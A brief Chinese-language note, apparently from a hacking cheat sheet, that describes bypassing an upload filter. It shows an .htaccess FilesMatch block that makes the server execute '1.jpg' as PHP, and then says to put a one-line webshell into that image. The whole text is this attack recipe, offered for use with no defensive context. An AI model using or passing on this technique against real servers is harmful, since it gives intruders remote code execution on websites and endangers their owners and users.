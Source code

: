 假设要传一个1.jpg文件，先传一个htaccess文件。

```php
<FilesMatch “1.jpg”>
SetHandler application/x-httpd-php
</FilesMatch>
```

之后在1.jpg里写一句话木马即可。